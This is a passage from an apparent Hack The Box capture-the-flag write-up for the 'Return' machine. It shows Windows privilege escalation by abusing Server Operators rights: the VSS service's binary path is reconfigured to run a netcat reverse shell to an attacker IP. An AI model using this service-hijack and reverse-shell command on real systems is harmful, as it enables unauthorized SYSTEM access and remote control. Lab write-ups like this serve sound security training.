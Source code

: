 ```
```

**It is always important to verify the privileges and the member of group for the pawned user**

![](Return_HTB_Server_Operator_Group.png)

Using the following command, I tried to get the list of services that this user can modify, but this user does not have access to the Service Control Manager. However, you can use `sc.exe query` command to check out the list of services that you can modify (Start, Stop, Restart).
```
*Evil-WinRM* PS C:\tmp> sc.exe query
[SC] OpenSCManager FAILED 5:

Access is denied.
```

**HOWEVER**, The user allowed to `config` a `VSS - Volume Shadow Copy` service. Basically, you should use one of the service when you run the `sc.exe query` command however, for this box, we took a blind approach and just use the `Volume Shadow Copy` service to config the `Binary Path`.

```
*Evil-WinRM* PS C:\tmp> sc.exe config VSS binpath="C:\tmp\nc.exe -e cmd 10.10.14.4 5555"
[SC] ChangeServiceConfig SUCCESS
```

Now as soon as you start the `VSS` service, the box will turn it on for like under a minute. But make sure your NetCat Listener is running so that you can catch the shell and get the root flag. At this point my NetCat Listener was running on `port 5555`.

```
*Evil-WinRM* PS C:\tmp> sc.exe start VSS

#### The following line printed within 45 sesconds. By that time, I got the root flag.
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```
